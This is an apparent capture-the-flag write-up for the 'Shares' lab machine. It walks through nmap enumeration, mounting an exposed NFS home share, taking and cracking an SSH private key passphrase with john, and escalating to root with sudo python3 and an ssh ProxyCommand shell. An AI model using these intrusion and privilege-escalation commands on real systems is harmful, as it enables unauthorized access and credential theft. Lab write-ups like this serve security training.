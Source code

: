 ```yaml
---
title: "Shares"
date: 2022-09-16T18:33:31+01:00
draft: false
categories:
  - Cyberseclabs
---
```


## Enumeration

```bash
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack vsftpd 3.0.3

80/tcp open http syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Pet Shop
| http-methods:
|_ Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)

111/tcp open rpcbind syn-ack 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 33317/tcp6 mountd
| 100005 1,2,3 47026/udp mountd
| 100005 1,2,3 52045/tcp mountd
| 100005 1,2,3 56412/udp6 mountd
| 100021 1,3,4 33401/tcp nlockmgr
| 100021 1,3,4 41275/tcp6 nlockmgr
| 100021 1,3,4 44254/udp nlockmgr
| 100021 1,3,4 60886/udp6 nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| 100227 3 2049/udp nfs_acl
|_ 100227 3 2049/udp6 nfs_acl

2049/tcp open nfs_acl syn-ack 3 (RPC #100227)
Service Info: OS: Unix

27853/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 97:93:e4:7f:41:79:9c:bd:3d:d8:90:c3:93:d5:53:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCyk8rqOZBxSEXCu+mZCgIQOiHcAg/2ivCFVqGH0ehzvIN3eFZ5jll3zDyKehhaSyYeouoQZbpUk4fmTEqPFdUGjOzXhUhf6pQ0atKx3hms+b5ZLaCL2UjburequfIHCfDCbt6Wbj7dozIMmQ4+qjPQqBkUci7DjCTA/LbxNPL47hoC+3vAvCgRxAK6Yq4tUlil3eSgHX9EeJSxJQpDShPjTZ384+DUMx3VJbXFNBtxsUblPeykzrM18Hill3Yy/D4L9ZW0PJ5P3W+cFQuHc3RWLXCY6S1WmHDxGcI2UA3f2UaBDn2zm3cmgt3yKWTuqY98NlSh880AzmAcS6HpDlY/
|   256 11:66:e9:84:32:85:7b:c7:88:f3:19:97:74:1e:6c:29 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDF3clGPfC6R84UaHxAMoGIYn58Njt+Dth8rsl/Aa8W9SXquC3L+TGPb5dVRArkmCgta+moG16PhstNUHlyNVbA=
|   256 cc:66:1e:1a:91:31:56:56:7c:e5:d3:46:5d:68:2a:b7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGKX5ZbEhRnQU7woPnhhFMtk+c0HJcj0T3xPfAWHTBH9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


36549/tcp open  mountd  syn-ack 1-3 (RPC #100005)

44829/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)

57327/tcp open  mountd  syn-ack 1-3 (RPC #100005)

```

There is a website running, a pet shop, and a nfs server.

There is not much information on the website and ftp doesn't allow anonymous login,
we can try to enumerate the nfs server.

```bash
$showmount -e 172.31.1.7

Export list for 172.31.1.7:
/home/amir *.*.*.*
```

## Exploitation

Now we know there is a user called "amir", and we can try to mount the amir folder on our machine

```bash
mount -t nfs 172.31.1.7:home/amir /mnt/TempNFS

drwxrwxr-x 5 nair0lf32 docker 4096  2 avril  2020 .
drwxr-xr-x 1 root      root     14 27 oct.  11:41 ..
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .bash_history
-rw-r--r-- 1 nair0lf32 docker  220  4 avril  2018 .bash_logout
-rw-r--r-- 1 nair0lf32 docker 3786  2 avril  2020 .bashrc
drw-r--r-- 2 nair0lf32 docker 4096  2 avril  2020 .cache
drw-r--r-- 3 nair0lf32 docker 4096  2 avril  2020 .gnupg
-rw-r--r-- 1 nair0lf32 docker  807  4 avril  2018 .profile
drwxrwxr-x 2 nair0lf32 docker 4096  2 avril  2020 .ssh
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .sudo_as_admin_successful
-rw-r--r-- 1 nair0lf32 docker 7713  2 avril  2020 .viminfo
```

We have access to the .ssh folder with amir's private id_rsa key. We crack that:
First we use:

`python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john`

to get a john formatted hash file, then we run john on the hash file:

```bash
john -w=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hello6           (id_rsa)
1g 0:00:00:08 DONE (2021-10-27 11:52) 0.1213g/s 1740Kp/s 1740Kc/s 1740KC/sa6_123..*7¡Vamos!
Session completed
```

ssh creds: `amir:hello6`

Now we can ssh as amir using his key...note that ssh is not on port 22

```bash
ssh amir@172.31.1.7 -i id_rsa -p 27853

amir@shares:/home$ ls
amir  amy
```

There seem to be another user called amy and as amir's folder is empty I guess our user flag is owned by amy.

We check sudo rights for possible lateral movement:

```bash
$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```

And we can. we can run either python or pkexec as amy.

I chose python because I already know how to work with that one. Gotta explore pkexec too later.

```bash
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

And now we are amy. We get User Flag in amy's home folder:
`cat access.txt`

Now its Privilege Escalation time:

## Privilege Escalation

```bash
amy@shares:/home/amy$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```

Uh ok amy can run ssh as root? let's ask Gtfobins for help here

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`


And Its done, we are root. flag is in the root folder:

` cat system.txt`

And that's it. If you are curious enough remember to try the other way around. and find other methods to get the flags.

By example it seems there is a possible escalation with lxd from amir 'id command' to root.
